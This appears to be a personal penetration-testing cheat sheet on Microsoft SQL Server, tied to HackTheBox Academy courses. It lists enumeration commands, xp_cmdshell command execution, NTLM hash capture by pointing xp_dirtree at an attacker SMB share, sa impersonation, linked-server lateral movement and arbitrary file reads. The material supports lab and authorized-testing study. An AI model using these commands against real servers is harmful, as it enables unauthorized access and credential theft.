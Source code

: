 # MSSQL 🐭

[![footprinting](../../../../cybersecurity/_badges/htb/footprinting.svg)](https://academy.hackthebox.com/course/preview/footprinting)
[![attacking_common_services](../../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)

<div class="row row-cols-lg-2"><div>

Microsoft SQL Server (MSSQL) is a relational database management system developed by Microsoft. It's often used by developers when building .NET applications. 

SQL Server Management Studio (SSMS) is a graphical client that can be installed along MSSQL or separately. It allows database administrators, developers, and other users to perform various tasks related to SQL Server databases.

🐲 MSSQL default port is 1433 or 2433 <small>(TCP)</small> and 1434 <small>(UDP)</small>.
</div><div>

Common commands:

```sql!
select name from sys.databases    -- list databases
select name from sys.databases where name not in ('master', 'tempdb', 'model', 'msdb');
use db_name;                      -- select a database
-- list the tables in the database
select table_name from information_schema.tables where table_type = 'base table';
-- list the columns of the table "table_name_here"
select column_name, data_type from information_schema.columns where table_name = 'table_name_here';
-- list users (1), and sysadmins (2)
SELECT name, password,sysadmin FROM syslogins
SELECT name FROM sys.server_principals WHERE IS_SRVROLEMEMBER('sysadmin', name) = 1;
```
</div></div>

<hr class="sep-both">

## MSSQL Clients

<div class="row row-cols-lg-2"><div>

#### Windows client - sqlcmd

On Windows, you can use the [sqlcmd](https://learn.microsoft.com/en-us/sql/tools/sqlcmd/sqlcmd-utility?view=sql-server-ver16&tabs=go%2Cwindows&pivots=cs1-bash) utility.

```ps
PS> # -E == Windows Auth | -Q == Query
PS> sqlcmd -E -Q "select name from sys.databases"
PS> sqlcmd -E -i query.sql
PS> sqlcmd -S server_name -U sa -P password [...]
```

If [WMI (DCOM)](/operating-systems/networking/protocols/dcom.md) is available, from a Linux host, you can access `sqlcmd` after popping a powershell:

```shell!
$ impacket-wmiexec username:password@IP -shell-type powershell
```
</div><div>

#### Linux client - sqlsh

You can use [sqlsh](https://en.wikipedia.org/wiki/Sqsh) on Linux.

```shell!
$ sqsh -S IP -U 'username' -P 'password' -h
$ sqsh -S IP -U '.\\username' -P 'password' -h
1> some query
2> go
```

#### Linux client - impacket

You can alternatively use [mssqlclient](/operating-systems/networking/protocols/tools/impacket.md#mssqlclient).

```shell!
$ impacket-mssqlclient username@IP -windows-auth
$ impacket-mssqlclient username:password@IP -windows-auth
```

The SQL Server might user Windows Authentication or Username/Password Authentication. Use or remove`-windows-auth` accordingly.
</div></div>


<hr class="sep-both">

## MSSQL Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

#### Enumeration

* We can use [nmap](/cybersecurity/red-team/tools/scanners/ports/nmap.md) to run scripts

```shell!
$ nmap -sC -sV --script "*ms-sql*" -p 1433 IP
```

* Look for interesting [Metasploit](/cybersecurity/red-team/tools/frameworks/metasploit/index.md) modules.

```shell!
mfs6> search mssql/
```

#### FootHold

[![attacking_common_services](../../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)

* You can use [Metasploit](/cybersecurity/red-team/tools/frameworks/metasploit/index.md) to XXX.

```shell!
mfs6> use mssql_enum_sql_logins
mfs6> set RHOSTS IP
mfs6> set USERNAME username
mfs6> set PASSWORD password
mfs6> set USE_WINDOWS_AUTHENT true
mfs6> run
```

#### Exploitation - Part I

[![attacking_common_services](../../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)

* [`xp_cmdshell`](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16) can be used to run commands. It's disabled by default. The command is runs with the same permissions as the server.

```sql!
-- [EXECUTE] sp_configure 'show advanced options', 1
-- RECONFIGURE
-- [EXECUTE] sp_configure 'xp_cmdshell', 1
-- RECONFIGURE
xp_cmdshell 'whoami'
```

Note that you can use `enable_xp_cmdshell` in `impacket-mssqlclient`.

* We can steal hashes by setting up a [responder](/cybersecurity/red-team/tools/utilities/networking/responder.md)

```sql!
EXEC master..xp_dirtree '\\IP\share\'
EXEC master..xp_subdirs '\\IP\share\'
```

* We may be able to impersonate users:

```sql!
-- list users we can impersonate
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
-- impersonate user 'sa'
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER; SELECT IS_SRVROLEMEMBER('sysadmin')
REVERT # cancel impersonation
```
</div><div>

#### Exploitation - Part II

* Extended Store Procedures
* CLR Assemblies
* SQL Server Agent Jobs
* External Scripts
* `xp_regwrite` can be used to create registry entries
* User Defined Functions in C/C++ ([ex](https://github.com/mysqludf/lib_mysqludf_sys))

#### Lateral Movement

[![attacking_common_services](../../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)

The current server may be linked to other servers. If we compromise it, we may be able to run SQL queries on linked servers.

* List Linked Servers

```sql!
SELECT srvname, isremote FROM sysservers
```

* Execute a SQL Query on a Linked Server

```sql!
EXEC('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [your_target_here]
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [your_target_here]
```

#### Additional Notes

* If installed, look for saved credentials in SSMS

* The services often runs as `NT SERVICE\MSSQLSERVER`

* By default, encryption is not enforced when attempting to connect.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* Try running the tool as administrator
* HeidiSQL, SQLPro, mssql-cli
* [System Databases](https://learn.microsoft.com/en-us/sql/relational-databases/databases/system-databases?view=sql-server-ver15)

```sql!
SELECT name FROM master.dbo.sysdatabases
SELECT table_name FROM xxx.INFORMATION_SCHEMA.TABLES
```
</div><div>

Write files

```sql!
-- enable to write
sp_configure 'show advanced options', 1
RECONFIGURE
sp_configure 'Ole Automation Procedures', 1
RECONFIGURE
-- use it...
-- can read any file
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
```

SSMS

* File > New > Query with current connection
* Press execute to run the file
* Need to add `GO`?
</div></div>